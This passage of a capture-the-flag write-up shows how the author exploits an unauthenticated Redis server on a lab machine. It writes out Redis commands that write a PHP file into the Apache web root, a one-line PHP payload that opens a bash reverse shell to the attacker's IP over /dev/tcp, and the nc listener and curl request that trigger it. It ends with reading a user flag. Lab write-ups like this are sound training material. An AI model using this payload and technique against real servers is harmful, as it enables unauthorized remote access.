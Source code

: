 Can we get some usefull information out of this?

I guess at least we know the username:

``
executable:/home/2/redis-stable/src/redis-server
config_file:/home/vianka/redis-stable/redis.conf
``

Not sure if this helps us, we start googling to see how we can exploit an open Redis instance we stumble upon this page:

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

This shows us how to inject PHP code in a file then save the database and open it with Apache, genius.

To create a reverse shell:


We know its apache2, so we can guess the default folder is used which is always /var/www/html/
```
  10.10.31.148:6379> config set dir /var/www/html/
```

Then we set the dbfilename as a .php file to later execute by calling it:

```
config set dbfilename rs.php
```

then we set a "test" value to print to the db file with a tiny PHP reverse shell as content:

```
<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.14.12.121/6666 0>&1\'"); ?>
```

Then we save the file.

```
save
```

We open up a listner on our local kali vm and wait for the reverse shell to kick in.

```
rlwrap nc -lvnp 6666
```

And now we call the file we just created.

curl "http://10.10.31.148/rs.php"

_SUCCESS!_

Now we can check the /home/vianka/ folder we found earlier to see what we can do here. and we find the first flag
```
cat /home/vianka/user.txt
```

After this, we check if we can have any privilege escalation using `linpeas.sh` as always.
